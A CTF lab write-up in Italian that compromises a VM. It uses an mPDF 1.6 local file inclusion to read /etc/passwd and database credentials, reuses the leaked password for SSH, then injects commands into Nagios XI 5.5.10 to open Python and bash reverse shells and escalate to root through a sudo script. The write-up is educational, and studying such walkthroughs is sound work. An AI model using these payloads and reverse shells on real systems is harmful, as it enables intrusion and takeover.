





# Writeup CTF 29 Gennaio 2020
Dopo aver avviato la VM si procede ad identificare l'IP della stessa (anche con un semplice *nmap nmap -sS -F <network>*); per il writeup assumiamo che l'IP della VM sia **172.16.150.137**

Si cercano i servizi esposti
```
$ nmap -sS -n -v 172.16.150.137 
[...]           
Scanning 172.16.150.137 [1000 ports]
[...]
Nmap scan report for 172.16.150.137
Host is up (0.00011s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
[...]
```
Dopo aver verificato la versione di apache/ssh, fatto un po' di fuzzing delle directory, testato per SQL Injection e non aver trovato nulla, ci si concentra sulla funzionalità di generazione PDF nella sezione checkout della web app

Provando a generare un PDF ed analizzandone i metadata (usando BURP ad esempio) riusciamo a capire nome e versione della libreria utilizzata per la generazione (mPDF versione 1.6)

```
HTTP/1.1 200 OK
[...]
Content-Type: application/pdf
Content-Length: 59378

%PDF-1.4
%âãÏÓ
3 0 obj
<</Type /Page
/Parent 1 0 R
/MediaBox [0 0 595.280 841.890]
/TrimBox [0.000 0.000 595.280 841.890]
/Resources 2 0 R
/Group << /Type /Group /S /Transparency /CS /DeviceRGB >> 
/Contents 4 0 R>>
endobj
4 0 obj
<</Filter /FlateDecode /Length 734>>
stream
[...]
/Producer ( mPDF 1.6)
[...]
```
E' anche interessante notare il parametro *hidden* passato via POST a *generate.php*, nell'immagine seguente evidenziato con BURP


Approfondiamo andando ad analizzare il payload passato con il parametro *pdf* alla pagina *generate.php*


Il payload è il seguente
```
PGh0bWw%252BPGhlYWQ%252BPHN0eWxlPnRhYmxlIHsKCWJvcmRlci1jb2xsYXBzZTogc2VwYXJhdGU7Cglib3JkZXI6IDAuMG1tIHNvbGlkICMwMDAwMDA7CglwYWRkaW5nOiAzcHg7CgltYXJnaW46IDBweCAyMHB4IDBweCAyMHB4OwoJZW1wdHktY2VsbHM6IGhpZGU7CgliYWNrZ3JvdW5kLWNvbG9yOiNGRkZGRkY7Cgl9Cgl0ZCB7Cglib3JkZXItdG9wOiAxcHggc29saWQgIzAwMDAwMDsKCXBhZGRpbmc6IDBweDsKCWJhY2tncm91bmQtY29sb3I6I0ZGRkZGRjsKCX0KPC9zdHlsZT48L2hlYWQ%252BPGJvZHk%252BPGgyPkF1cnJpJ3MgVGVjaCBXb3JsZDwvaDI%252BPGgzPk9yZGVyIElEOiAzMjIyMDM3MjczNjwvaDM%252BPHRhYmxlIGNsYXNzPSJ0YWJsZSI%252BPHRyPjx0aD4jPC90aD48dGg%252BSXRlbSBOYW1lPC90aD48dGg%252BUHJpY2U8L3RoPjx0aD4mbmJzcDs8L3RoPjwvdHI%252BPHRyPjx0ZD4yPC90ZD48dGQ%252BPGltZyBzcmM9J3Byb2QtaW1nL2xhcHRvcC5qcGcnLz48L3RkPjx0ZD48aDU%252BTGFwdG9wPC9oNT48L3RkPjx0ZD48aDU%252BODAwJmV1cm87PC9oNT48L3RkPjwvdHI%252BPHRyPjx0ZD4mbmJzcDs8L3RkPjx0ZD4mbmJzcDs8L3RkPjx0ZD5Ub3RhbDwvdGQ%252BPHRkPjgwMDwvdGQ%252BPC90cj48L3RhYmxlPjwvYm9keT48L2h0bWw%252B
```

Sembra essere un payload base64 encodato (double) con URL encoding

Quindi procediamo a decodificarlo DA BURP: *Text -> Url decode -> Url decode -> Base64 decode*

Il risultato è un payload HTML che rappresenta il PDF da renderizzare
```
<html><head><style>table {
	border-collapse: separate;
	border: 0.0mm solid #000000;
	padding: 3px;
	margin: 0px 20px 0px 20px;
	empty-cells: hide;
	background-color:#FFFFFF;
	}
	td {
	border-top: 1px solid #000000;
	padding: 0px;
	background-color:#FFFFFF;
	}
</style></head><body><h2>Aurri's Tech World</h2><h3>Order ID: 32220372736</h3><table class="table"><tr><th>#</th><th>Item Name</th><th>Price</th><th>&nbsp;</th></tr><tr><td>2</td><td></td><td><h5>Laptop</h5></td><td><h5>800&euro;</h5></td></tr><tr><td>&nbsp;</td><td>&nbsp;</td><td>Total</td><td>800</td></tr></table></body></html>
```
Cercando su internet specifiche vulnerabilità per la versione 1.6 di mPDF si trovano due link che sembrano descrivere esattamente il nostro caso
* [1] [https://github.com/mpdf/mpdf/issues/356](https://github.com/mpdf/mpdf/issues/356)
* [2] [https://medium.com/@jonathanbouman/local-file-inclusion-at-ikea-com-e695ed64d82f](https://medium.com/@jonathanbouman/local-file-inclusion-at-ikea-com-e695ed64d82f)

Proviamo quindi a controllare il payload (come descritto in [1] e [2]) forzando la *generate.php* a produrre un PDF con allegato un file local, praticamente una LFI

Usiamo il seguente template
```
<html><head></head><body><annotation file="/etc/passwd" content="/etc/passwd"  icon="Graph" title="Attached File: /etc/passwd" pos-x="195" /></body></html>
```
Ricordiamoci di encodare ripetendo (al contrario) i passi della decodifica: *Text -> Base64 encode -> Url encode -> Url encode* ed utilizzando BURP modifichiamo la richiesta POST nel seguente modo
```
POST /generate.php HTTP/1.1
Host: 172.16.150.137
Content-Length: 228
Cache-Control: max-age=0
Authorization: Basic [...]
Origin: http://172.16.150.137
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://172.16.150.137/collect.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fr;q=0.8
Cookie: PHPSESSID=rniqivaf781msk2qc3f02b87nv
Connection: close

pdf=PGh0bWw%252bPGhlYWQ%252bPC9oZWFkPjxib2R5Pjxhbm5vdGF0aW9uIGZpbGU9Ii9ldGMvcGFzc3dkIiBjb250ZW50PSIvZXRjL3Bhc3N3ZCIgIGljb249IkdyYXBoIiB0aXRsZT0iQXR0YWNoZWQgRmlsZTogL2V0Yy9wYXNzd2QiIHBvcy14PSIxOTUiIC8%252bPC9ib2R5PjwvaHRtbD4%253d
```
Scaricando il PDF prodotto dalla richiesta modificata ed aprendolo possiamo notare che ha il file passwd allegato


Il contenuto di */etc/passwd* evidenzia i seguenti utenti di interesse: *darren*, *nagios* e *root*
```
root:x:0:0:root:/root:/bin/bash
[...]
darren:x:1000:1000:darren:/home/darren:/bin/bash
[...]
nagios:x:1001:1001::/home/nagios:/bin/sh
```
Scarichiamo anche *index.php* che ci permette di scoprire che viene utilizzato *connect.php* (nella cartella *inc/*) che potrebbe contenere le credenziali utilizzate per la connessione al database
```
<?php 
error_reporting(E_ALL);
ini_set('display_error',1);
session_start();
require_once('inc/connect.php');
include('templates/header.php');
include('templates/nav.php');

$sql = "SELECT * FROM products";
$res = mysqli_query($connection, $sql);
while($r = mysqli_fetch_assoc($res)){ ?>

	  <div class="col-sm-6 col-md-3">
	    <div class="thumbnail">
	      " alt="<?php echo $r['title'] ?>">
	      <div class="caption">
	        <h3><?php echo $r['title'] ?></h3>
	        <p><?php echo $r['description'] ?></p>
	        <p><?php echo $r['price'] ?>&euro;</p>
	        <p><a href="addtocart.php?id=<?php echo $r['id']; ?>" class="btn btn-primary" role="button">Add to Cart</a></p>
	      </div>
	    </div>
	  </div>
<?php } ?> 
<?php include('templates/footer.php'); ?>
```
Con la stessa procedura scarichiamo il file *inc/connect.php* e troviamo le credenziali di *darren*
```
<?php
$connection = mysqli_connect('localhost', 'darren', 'Buc4t1n1C4c103P3p3');
if (!$connection){
    die("Database Connection Failed" . mysqli_error($connection));
}
$select_db = mysqli_select_db($connection, 'shop');
if (!$select_db){
    die("Database Selection Failed" . mysqli_error($connection));
}
```
Utilizziamo le credenziali appena trovate per accedere in ssh alla macchina e - dopo aver preso la flag *user.txt* - procediamo con l’enumerazione del filesystem
```
$ sshpass -p Buc4t1n1C4c103P3p3 ssh darren@172.16.150.137
Welcome to Ubuntu 18.10 (GNU/Linux 4.18.0-25-generic x86_64)
[...]
Last login: Sat Jan 25 01:00:54 2020 from 172.16.150.151
darren@shopper:~$
```
```
darren@shopper:~$ ps auxw                                                                                                  
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND                                                  
root          1  0.1  0.8 194928  8492 ?        Ss   20:03   0:06 /lib/systemd/systemd --system --deserialize 36           
root          2  0.0  0.0      0     0 ?        S    20:03   0:00 [kthreadd]                                               
root          3  0.0  0.0      0     0 ?        I<   20:03   0:00 [rcu_gp]                                                 
root          4  0.0  0.0      0     0 ?        I<   20:03   0:00 [rcu_par_gp]                                             
root          6  0.0  0.0      0     0 ?        I<   20:03   0:00 [kworker/0:0H-kblockd]                                   
root          8  0.0  0.0      0     0 ?        I<   20:03   0:00 [mm_percpu_wq]                                           
root          9  0.0  0.0      0     0 ?        S    20:03   0:02 [ksoftirqd/0]                                            
root         10  0.0  0.0      0     0 ?        I    20:03   0:02 [rcu_sched]                                              
root         11  0.0  0.0      0     0 ?        I    20:03   0:00 [rcu_bh]                                                 
root         12  0.0  0.0      0     0 ?        S    20:03   0:00 [migration/0]                                            
root         13  0.0  0.0      0     0 ?        S    20:03   0:00 [watchdog/0]
[...]
nagios   117486  0.0  0.0   2560   884 ?        Ss   20:56   0:00 /bin/sh -c /usr/bin/php -q /usr/local/nagiosxi/cron/eventman.php >> /usr/local/nagiosxi/var/eventman.log 2>&1
nagios   117487  0.0  0.0   2560   884 ?        Ss   20:56   0:00 /bin/sh -c /usr/bin/php -q /usr/local/nagiosxi/cron/sysstat.php >> /usr/local/nagiosxi/var/sysstat.log 2>&1
nagios   117488  0.0  0.0   2560   820 ?        Ss   20:56   0:00 /bin/sh -c /usr/bin/php -q /usr/local/nagiosxi/cron/feedproc.php >> /usr/local/nagiosxi/var/feedproc.log 2>&1
nagios   117489  0.0  0.0   2560   816 ?        Ss   20:56   0:00 /bin/sh -c /usr/bin/php -q /usr/local/nagiosxi/cron/cmdsubsys.php >> /usr/local/nagiosxi/var/cmdsubsys.log 2>&1
nagios   117490  0.0  0.0   2560   816 ?        Ss   20:56   0:00 /bin/sh -c /usr/bin/php -q /usr/local/nagiosxi/cron/perfdataproc.php >> /usr/local/nagiosxi/var/perfdataproc.log 2
nagios   117491  0.0  0.0   2560   756 ?        Ss   20:56   0:00 /bin/sh -c /usr/bin/php -q /usr/local/nagiosxi/cron/event_handler.php >> /usr/local/nagiosxi/var/event_handler.log
nagios   117493  0.3  3.9 192484 39164 ?        S    20:56   0:00 /usr/bin/php -q /usr/local/nagiosxi/cron/eventman.php
nagios   117494  0.1  3.3 188360 33376 ?        S    20:56   0:00 /usr/bin/php -q /usr/local/nagiosxi/cron/sysstat.php
nagios   117495  0.1  3.3 186312 33096 ?        S    20:56   0:00 /usr/bin/php -q /usr/local/nagiosxi/cron/feedproc.php
nagios   117496  0.3  3.9 192484 39300 ?        S    20:56   0:00 /usr/bin/php -q /usr/local/nagiosxi/cron/cmdsubsys.php
nagios   117498  0.1  3.3 188360 33136 ?        S    20:56   0:00 /usr/bin/php -q /usr/local/nagiosxi/cron/perfdataproc.php
nagios   117499  0.1  3.3 188360 33292 ?        S    20:56   0:00 /usr/bin/php -q /usr/local/nagiosxi/cron/event_handler.php
nagios   117708  0.0  0.0   2560   756 ?        S    20:56   0:00 sh -c /usr/bin/iostat -c 5 2 -o JSON
nagios   117709  0.0  0.0  24584   756 ?        S    20:56   0:00 /usr/bin/iostat -c 5 2 -o JSON
darren   117723  0.0  0.3  38296  3368 pts/0    R+   20:56   0:00 ps auxw                         
```
Dopo aver cercato un po in giro sul filesystem, ci concentriamo sul servizio *nagiosxi*

Andando a vedere quali utenti hanno accesso a *nagiosxi* scopriamo che *darren* lo ha
```
darren@shopper:/usr/local/nagiosxi/etc$ cat htpasswd.users 
nagiosadmin:{SHA}Hu50bteKBIZbTptJncI4He3T6Hc=
nagiosxi:{SHA}sNa2hSkRxSFRIoaP0ZvqiQK36zQ=
darren:{SHA}1zmDWCUtgvN/ZQ2UcHOzF5IgxAY=
```
Verifichiamo che la password sia la stessa utilizzata per l’utenza ssh che abbiamo trovato
```
$ htpasswd -s -c /tmp/check_passwd darren 
New password: Buc4t1n1C4c103P3p3
Re-type new password: Buc4t1n1C4c103P3p3
Adding password for user darren
$ cat /tmp/check_passwd
darren:{SHA}1zmDWCUtgvN/ZQ2UcHOzF5IgxAY=
```
Verifichiamo la versione di *nagiosxi*, che risulta essere la *5.5.10*
```
darren@shopper:/usr/local/nagiosxi/var$ cat xiversion 
###################################
# DO NOT DELETE THIS FILE!
# Nagios XI version information
###################################
full=5.5.10
major=5
minor=5.10
releasedate=2019-02-12
release=5510
```
Questa versione è vulnerabile e consente escalation da utente (con XSS) fino a *root* (tks @smaury)
* [3] [https://www.shielder.it/blog/nagios-xi-5-5-10-xss-to-root-rce/](https://www.shielder.it/blog/nagios-xi-5-5-10-xss-to-root-rce/)

Iniziamo a seguire i passi descritti in [3] ma prima dobbiamo trovare il modo di collegarci all’interfaccia web di *nagiosxi* che però è bindata su 127.0.0.1 (sull’interfaccia eth0 è bindata un’altra versione di nagios!)
```
darren@shopper:/etc/apache2/sites-available$ cat 000-default.conf 
[...]
<Location /nagiosxi/terminal>
    ProxyPass  https://localhost:7878/
    Order      allow,deny
    Allow      from 127.0.0.1
</Location>
### End SSH Terminal ###

<Location /nagiosxi>
    Order      allow,deny
    Allow      from 127.0.0.1
</Location>
[...]
```
Avendo accesso ssh forwardiamo la porta 80 così che possiamo collegarci anche a *nagiosxi*
```
$ sshpass -p Buc4t1n1C4c103P3p3 ssh -L 172.16.150.151:80:127.0.0.1:80 darren@172.16.150.137
Welcome to Ubuntu 18.10 (GNU/Linux 4.18.0-25-generic x86_64)
[...]
Last login: Mon Jan 27 21:11:23 2020 from 172.16.150.151
darren@shopper:~$
```
Esplorando l’applicazione noteremo che il periodo di prova (trial) è scaduto. Nessun problema, le funzionalità e l’exploit descritto in [3] funzionano ancora perfettamente


Utilizzando BURP modifichiamo una qualsiasi richiesta in modo da ottenere qualcosa del tipo
```
POST /nagiosxi/includes/components/autodiscovery/?mode=newjob HTTP/1.1
Host: nagiosxi.local
Content-Type: application/x-www-form-urlencoded
Content-Length: 310
Connection: close
Cookie: nagiosxi=8rspko6npt4lkfqcvo9u5i70b2

update=1&job=-1&nsp=d333dca41f296fae9327eecdce86332176ed6bfc82c352e3276751ecedd6f172&address=192.168.1&exclude_address=&frequency=Once&hour=09&minute=00&ampm=AM&dayofweek=1&dayofmonth=1&os_detection=on&scandelay=&system_dns=%3bbash+-i+>%26+/dev/tcp/192.168.13.37/31337+0>%261%3b&topology_detection=&updateButton=
```
A questo punto andiamo a prendere il valore di *nsp_str* dal sorgente della pagina; sembra essere una sorta di csrf token


Scriviamo una reverse shell ad esempio in python
```
python -c "import os;import pty;import socket;ROOmjOfgfLXNq='172.16.150.151';wbFjsh=4444;CsXkzQdTUgKDFV=socket.socket(socket.AF_INET,socket.SOCK_STREAM);CsXkzQdTUgKDFV.connect((ROO
mjOfgfLXNq,wbFjsh));os.dup2(CsXkzQdTUgKDFV.fileno(),0);os.dup2(CsXkzQdTUgKDFV.fileno(),1);os.dup2(CsXkzQdTUgKDFV.fileno(),2);os.putenv('HISTFILE','/dev/null');pty.spawn('/bin/bash'
);CsXkzQdTUgKDFV.close();"
```
Sostituiamo questi due elementi alla nostra richiesta e mettiamo in ascolto il nostro *netcat*
```
POST /nagiosxi/includes/components/autodiscovery/?mode=newjob HTTP/1.1
Host: 172.16.150.151
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://172.16.150.151/nagiosxi/index.php?
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fr;q=0.8
Cookie: PHPSESSID=52529pes89umqol35inpcgbglc; nagiosxi=hr0pf3q22rcvf7le9e710kte3q
Content-Type: application/x-www-form-urlencoded
Content-Length: 684
Connection: close

update=1&job=-1&nsp=27e8d8b0836299d975d00677207e7ae1fafe97903eeba7b361134ef3061fe685&address=192.168.1&exclude_address=&frequency=Once&hour=09&minute=00&ampm=AM&dayofweek=1&dayofmonth=1&os_detection=on&scandelay=&system_dns=;python+-c+"import+os%3bimport+pty%3bimport+socket%3bROOmjOfgfLXNq%3d'172.16.150.151'%3bwbFjsh%3d4444%3bCsXkzQdTUgKDFV%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bCsXkzQdTUgKDFV.connect((ROOmjOfgfLXNq,wbFjsh))%3bos.dup2(CsXkzQdTUgKDFV.fileno(),0)%3bos.dup2(CsXkzQdTUgKDFV.fileno(),1)%3bos.dup2(CsXkzQdTUgKDFV.fileno(),2)%3bos.putenv('HISTFILE','/dev/null')%3bpty.spawn('/bin/bash')%3bCsXkzQdTUgKDFV.close()%3b";&topology_detection=&updateButton=
```
Dopo qualche secondo abbiamo la callback con privilegi di utente *nagios*
```
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.16.150.151] from (UNKNOWN) [172.16.150.137] 42806
www-data@shopper:/usr/local/nagiosxi/html/includes/components/autodiscovery$ id
<nagiosxi/html/includes/components/autodiscovery$ id                         
uid=33(www-data) gid=33(www-data) groups=33(www-data),1001(nagios),1002(nagcmd)
```
Adesso che siamo utente *nagios*, possiamo andare a scrivere in *config.inc.php* come descritto in [3] (attenzione! il path è differente rispetto a [3])
```
www-data@shopper:/usr/local/nagiosxi/html$ ls -la config.inc.php
-rw-rw-r-- 1 nagios nagios 8521 Aug  6 12:27 config.inc.php
```
Verifichiamo di avere i permessi sudo come descirtto in [3]
```
www-data@shopper:/usr/local/nagiosxi/html/includes/components/autodiscovery$ sudo -l
<sxi/html/includes/components/autodiscovery$ sudo -l                         
Matching Defaults entries for www-data on shopper:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on shopper:
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/messages
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/httpd/error_log
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/mysqld.log
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/html/includes/components/autodiscovery/scripts/autodiscover_new.php
        *
    (root) NOPASSWD:
        /usr/local/nagiosxi/html/includes/components/profile/getprofile.sh
    (root) NOPASSWD: /etc/init.d/snmptt restart
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/repair_databases.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
```
Scriviamo la nostra reverse shell ed eseguiamo *reapir_databases.sh*
```
www-data@shopper:/usr/local/nagiosxi/html$ echo 'print("bash -i >& /dev/tcp/172.16.150.151/31337 0>&1;");' >> '/usr/local/nagiosxi/html/config.inc.php' && sudo /usr/local/nagiosxi/
scripts/repair_databases.sh
```
Siamo *root*, prendiamo la flag!
```
$ nc -lvnp 31337
listening on [any] 31337 ...
connect to [172.16.150.151] from (UNKNOWN) [172.16.150.137] 44394
root@shopper:/usr/local/nagiosxi/html# id
id
uid=0(root) gid=0(root) groups=0(root)
```
